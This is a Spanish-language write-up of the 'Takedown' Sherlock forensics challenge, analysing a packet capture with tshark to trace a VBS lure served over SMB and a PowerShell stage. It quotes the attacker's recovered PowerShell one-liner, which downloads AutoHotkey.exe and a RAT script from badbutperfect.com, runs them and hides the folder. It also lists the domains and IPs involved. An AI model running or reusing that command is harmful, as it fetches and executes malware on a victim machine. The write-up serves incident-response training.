




# **Sherlock - Takedown**


--- 

**Antes de empezar a reponder las preguntas** revisemos brevemente el contenido del fichero pcap. 

En las sigientes imágenes pododemos a grandes rasgos que fue lo que pasó




1. La víctima realizó una consulta DNS, y posteriormente se conectó a la ip que el servidor le mandó como resolucion del nombre del dominio. 
2. La ip se conecta al servidor SMB del atacante y se descargo un fichero **.VBS**, que probablemente contenía instrucciones maliciosas. 
3. La víctima lee el contenido del fichero **.VBS**, que contenía instrucciones para conectarse a otro servidor donde ya se descargó el malware. 


Con esta vista general de lo que pasó, ya podemos pasar a reponder las pregutnas. 

---
**task 1**

¿Desde qué dominio se descarga el script VBS?

Ya vimos en las imágenes que la víctima hace una primera consulta DNS para resolver el Nombre de Domino `escuelademariana.com`
Podemos aplicar un filtro DNS co tshark: 
```bash 
└─$ tshark -r Takedown.pcap -Y "dns" | head -n 10                                 
    1   0.000000  10.3.19.101 65306 10.3.19.1    53 DNS 79 Standard query 0x3c5c A escuelademarina.com
    2   0.089655    10.3.19.1 53 10.3.19.101  65306 DNS 114 Standard query response 0x3c5c A escuelademarina.com A 165.22.16.55
   68  15.700017  10.3.19.101 51628 10.3.19.1    53 DNS 77 Standard query 0xc54b A badbutperfect.com
   69  15.787532    10.3.19.1 53 10.3.19.101  51628 DNS 110 Standard query response 0xc54b A badbutperfect.com A 103.124.105.78
 2203  23.310417  10.3.19.101 61763 10.3.19.1    53 DNS 77 Standard query 0x4ab6 A badbutperfect.com
 2204  23.311413    10.3.19.1 53 10.3.19.101  61763 DNS 110 Standard query response 0x4ab6 A badbutperfect.com A 103.124.105.78
 2214  23.756477  10.3.19.101 61763 10.3.19.1    53 DNS 77 Standard query 0xe5a2 A badbutperfect.com
 2215  23.757358    10.3.19.1 53 10.3.19.101  61763 DNS 110 Standard query response 0xe5a2 A badbutperfect.com A 103.124.105.78
 2226  24.429521  10.3.19.101 61763 10.3.19.1    53 DNS 77 Standard query 0xe16f A badbutperfect.com
 2227  24.430469    10.3.19.1 53 10.3.19.101  61763 DNS 110 Standard query response 0xe16f A badbutperfect.com A 103.124.105.78                                                                                                                                                                                            
```

Aplicando otro filtro pero ahora para smb: 
```bash 
└─$ tshark -r Takedown.pcap -Y "smb2" | head -n 10                             
    8   0.407506 165.22.16.55 445 10.3.19.101  53623 SMB2 260 Negotiate Protocol Response
    9   0.408023  10.3.19.101 53623 165.22.16.55 445 SMB2 350 Negotiate Protocol Request
   10   0.559268 165.22.16.55 445 10.3.19.101  53623 SMB2 326 Negotiate Protocol Response
   11   0.562563  10.3.19.101 53623 165.22.16.55 445 SMB2 220 Session Setup Request, NTLMSSP_NEGOTIATE
   12   0.709438 165.22.16.55 445 10.3.19.101  53623 SMB2 383 Session Setup Response, Error: STATUS_MORE_PROCESSING_REQUIRED, NTLMSSP_CHALLENGE
   13   0.711451  10.3.19.101 53623 165.22.16.55 445 SMB2 673 Session Setup Request, NTLMSSP_AUTH, User: .\admin
   14   0.869087 165.22.16.55 445 10.3.19.101  53623 SMB2 139 Session Setup Response
   15   0.870155  10.3.19.101 53623 165.22.16.55 445 SMB2 182 Tree Connect Request Tree: \\escuelademarina.com\IPC$
   16   1.019751 165.22.16.55 445 10.3.19.101  53623 SMB2 138 Tree Connect Response
   17   1.020421  10.3.19.101 53623 165.22.16.55 445 SMB2 234 Ioctl Request FSCTL_DFS_GET_REFERRALS, File: \escuelademarina.com\cloud
   18   1.169359 165.22.16.55 445 10.3.19.101  53623 SMB2 131 Ioctl Response, Error: STATUS_NOT_FOUND
   19   1.170220  10.3.19.101 53623 165.22.16.55 445 SMB2 184 Tree Connect Request Tree: \\escuelademarina.com\cloud
   20   1.319507 165.22.16.55 445 10.3.19.101  53623 SMB2 138 Tree Connect Response
   21   1.320222  10.3.19.101 53623 165.22.16.55 445 SMB2 398 Create Request File: AZURE_DOC_OPEN.vbs
   22   1.472489 165.22.16.55 445 10.3.19.101  53623 SMB2 374 Create Response File: AZURE_DOC_OPEN.vbs
   23   1.473619  10.3.19.101 53623 165.22.16.55 445 SMB2 162 GetInfo Request FILE_INFO/SMB2_FILE_NORMALIZED_NAME_INFO File: AZURE_DOC_OPEN.vbs
   26   1.625582 165.22.16.55 445 10.3.19.101  53623 SMB2 131 GetInfo Response, Error: STATUS_INVALID_INFO_CLASS
   28   4.837474  10.3.19.101 53623 165.22.16.55 445 SMB2 374 Create Request File: AZURE_DOC_OPEN.vbs
   29   4.989206 165.22.16.55 445 10.3.19.101  53623 SMB2 131 Create Response, Error: STATUS_ACCESS_DENIED
   30   4.989750  10.3.19.101 53623 165.22.16.55 445 SMB2 374 Create Request File: AZURE_DOC_OPEN.vbs

```

Vemos que efectivamente fua a este domino al que la victima se conectó para obtener el **`AZURE_DOC_OPEN.vbs`**

---
**task 2**

¿Cuál era la dirección IP asociada al dominio de la pregunta nº 1 utilizado para este ataque?

Ya conocemos que primero se resolvió el nombre de domino **`escuelademarina.com`**, apliquemos un filtro para fijarnos solo en este paquete:

```bash 
└─$ tshark -r Takedown.pcap -Y "dns" | grep "escuelademarina.com" 
    1   0.000000  10.3.19.101 65306 10.3.19.1    53 DNS 79 Standard query 0x3c5c A escuelademarina.com
    2   0.089655    10.3.19.1 53 10.3.19.101  65306 DNS 114 Standard query response 0x3c5c A escuelademarina.com A 165.22.16.55
```

---
**task 3**

¿Cuál es el nombre de archivo del script VBS utilizado para el acceso inicial?

Ahora un filtro específico, en este caso para smb que ya vimos que fue de mediante este protocolo que se obtuvo el `.vbs`

```bash 
└─$ tshark -r Takedown.pcap -Y "smb2" | grep -A 3 "escuelademarina"
   15   0.870155  10.3.19.101 53623 165.22.16.55 445 SMB2 182 Tree Connect Request Tree: \\escuelademarina.com\IPC$
   16   1.019751 165.22.16.55 445 10.3.19.101  53623 SMB2 138 Tree Connect Response
   17   1.020421  10.3.19.101 53623 165.22.16.55 445 SMB2 234 Ioctl Request FSCTL_DFS_GET_REFERRALS, File: \escuelademarina.com\cloud
   18   1.169359 165.22.16.55 445 10.3.19.101  53623 SMB2 131 Ioctl Response, Error: STATUS_NOT_FOUND
   19   1.170220  10.3.19.101 53623 165.22.16.55 445 SMB2 184 Tree Connect Request Tree: \\escuelademarina.com\cloud
   20   1.319507 165.22.16.55 445 10.3.19.101  53623 SMB2 138 Tree Connect Response
   21   1.320222  10.3.19.101 53623 165.22.16.55 445 SMB2 398 Create Request File: AZURE_DOC_OPEN.vbs
   22   1.472489 165.22.16.55 445 10.3.19.101  53623 SMB2 374 Create Response File: AZURE_DOC_OPEN.vbs
```

---
**task 4**

¿Cuál era la URL utilizada para obtener un script PowerShell?

Ya sabemos también que se realizo una petición GET por http para obtener el malware, en este caso fijémonos en el la primera concidencia, que corresponde a la primera petición de este tipo: 

```bash 
└─$ tshark -r Takedown.pcap -Y "http.request.method == GET" -T fields -e http.request.full_uri | head -n 1
http://badbutperfect.com/nrwncpwo
```

---
**task 5**


Bien, podemos subir el fichero **/nrwncpwo** a virus total, este fichero lo podemos obtener de con **Networkminer** o desde wireshark en `File>Export Objects>HTTP` y en la sección de nombres del fichero, que desde luego está marcado como malicioso, vemos el nombre de `AutoHotkey.exe`


AutoHotkey es un lenguaje de scripting gratuito y de código abierto para Windows que permite a los usuarios crear fácilmente scripts pequeños y complejos para todo tipo de tareas.

También podemos verlo desde la consola:

```bash 
└─$ tshark -r Takedown.pcap -Y "tcp.stream eq 1" -T fields -e data.data | xxd -ps -r 
ni 'C:/rimz' -Type Directory -Force;cd 'C:/rimz';Invoke-WebRequest -Uri "http://badbutperfect.com/test2" -OutFile 'AutoHotkey.exe';Invoke-WebRequest -Uri "http://badbutperfect.com/jvtobaqj" -OutFile 'script.ahk';Invoke-WebRequest -Uri "http://badbutperfect.com/ozkpfzju" -OutFile 'test.txt'; start 'AutoHotkey.exe' -a 'script.ahk';attrib +h 'C:/rimz' 
``` 

--- 
**task 6**

¿Desde qué URL se descargó el malware utilizado con el binario de la pregunta nº 5?



En el análisis de virustotal podemo ver las ULR's contactadas por este malware, los nombres de esos ficheros ya nos nuesa, ya los vimos en el pcap: 

```bash 
└─$ tshark -r Takedown.pcap -Y "http.request.method == GET" -T fields -e http.request.full_uri            
http://badbutperfect.com/nrwncpwo
http://badbutperfect.com/test2
http://badbutperfect.com/jvtobaqj
http://badbutperfect.com/ozkpfzju
``` 

---
**task 7** 

Bien, volvamos un poco para atrás, y analizemos el comando encontrado en la pregunta 5. 

### Desglosemos el contenido:

```powershell
ni 'C:/rimz' -Type Directory -Force;
cd 'C:/rimz';
Invoke-WebRequest -Uri "http://badbutperfect.com/test2" -OutFile 'AutoHotkey.exe';
Invoke-WebRequest -Uri "http://badbutperfect.com/jvtobaqj" -OutFile 'script.ahk';
Invoke-WebRequest -Uri "http://badbutperfect.com/ozkpfzju" -OutFile 'test.txt';
start 'AutoHotkey.exe' -a 'script.ahk';
attrib +h 'C:/rimz'
```

1. **`ni`** es un alias en PowerShell para `New-Item`.  
   👉 Crea el directorio `C:/rimz`.

2. **Cambia de directorio** a esa carpeta.

3. **Descarga tres archivos** desde `badbutperfect.com`:
   - `AutoHotkey.exe` → ¡Este es el binario que probablemente están buscando!
   - `script.ahk` → Un script para AutoHotkey.
   - `test.txt` → Tal vez datos o instrucciones.

4. **Ejecuta `AutoHotkey.exe`** pasando el script como argumento:
   ```powershell
   start 'AutoHotkey.exe' -a 'script.ahk'
   ```

Y el fichero al que se le asignó el nombre de `script.ahk` es precisamente el de la pregunta anterior. 

---
**task 7**

¿Cuál es el TLSH del malware?

**TLSH (Trend Micro Locality Sensitive Hash)** es un tipo de *hash fuzzy* (hash borroso), diseñado no para identificar archivos exactamente iguales como SHA256 o MD5, sino para detectar archivos **similares**.

- **MD5/SHA256**: Cambia 1 byte y el hash es completamente diferente.
- **TLSH**: Cambia 1 byte y el hash cambia un poco, lo que permite comparar “qué tan parecidos” son dos archivos.

Muy útil en análisis de malware cuando los atacantes cambian un par de bytes para evadir detección, pero el core sigue igual.

###  Hashes tradicionales (MD5, SHA1, SHA256)

- **Detectan archivos exactamente iguales.**
- Cambias 1 byte y el hash cambia completamente.

```plaintext
Archivo original → MD5: abc123...
Archivo con 1 cambio → MD5: 9f8e7d...
```

No hay forma de saber si esos archivos son parecidos o completamente diferentes.


### TLSH (Locality Sensitive Hash)

- Detecta **similitud estructural** entre archivos.
- Si un malware cambia un poco (ofuscación, relleno, comentarios, codificación...), el **TLSH seguirá siendo similar**, y puedes **compararlos numéricamente**.

```plaintext
Archivo original  → TLSH: E62006AEBF1F1C53E2D932AC5C0C4C...
Archivo modificado → TLSH: E62006AEBF1F1C53E2D932AC5A1B4D...

Distancia TLSH: 15 (por ejemplo)
```


Util para detectar malware porque los atacantes hacen *tweaks* muy pequeños para evadir firmas (hashes exactos), pero el core del malware no cambia. Entonces:

- MD5/SHA256: no sirve en ese caso.
- TLSH: sí detecta que “es prácticamente lo mismo”.



---
**task 9**

Podemos verlo en el análisis de virustotal. 



---
**task10**

¿Cuál es la cadena de agente de usuario de la máquina infectada?

El User-Agent es una cadena que los clientes (como navegadores o scripts) envían en una petición HTTP para identificarse. 

```bash 
└─$ tshark -r Takedown.pcap -T fields -e http.user_agent | awk 'NF' | head -n 5
Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.22621.2506
Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.22621.2506
Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.22621.2506
Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.22621.2506
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
``` 

- Navegador legítimo:
  ```
  Mozilla/5.0 (Windows NT 10.0; Win64; x64) Chrome/118.0.0.0
  ```

-  Script (por ejemplo, PowerShell o curl):
  ```
  Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.22621.2506
  ```

```bash
Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.22621.2506
```

Es típico que scripts en PowerShell tengan su propio *User-Agent*, y en este caso tiene claro el identificador `WindowsPowerShell/5.1.22621.2506`.

---
**task 11** 

¿A qué IP se conecta la RAT de la pregunta anterior?

Aquí seguimos analizando el malware que aparece en la captura con el nombre `jvtobaqj`, filtremos por http para ver a qué ip la victima realizó la petición GET para obtener este fichero: 

```bash 
└─$ tshark -r Takedown.pcap -Y "http.request.method == GET"                                    
   73  15.885978  10.3.19.101 53625 103.124.105.78 80 HTTP 224 GET /nrwncpwo HTTP/1.1 
   83  16.445047  10.3.19.101 53626 103.124.105.78 80 HTTP 197 GET /test2 HTTP/1.1 
 1101  19.699584  10.3.19.101 53627 103.124.105.78 80 HTTP 200 GET /jvtobaqj HTTP/1.1 
 1175  20.380688  10.3.19.101 53628 103.124.105.78 80 HTTP 200 GET /ozkpfzju HTTP/1.1 
``` 


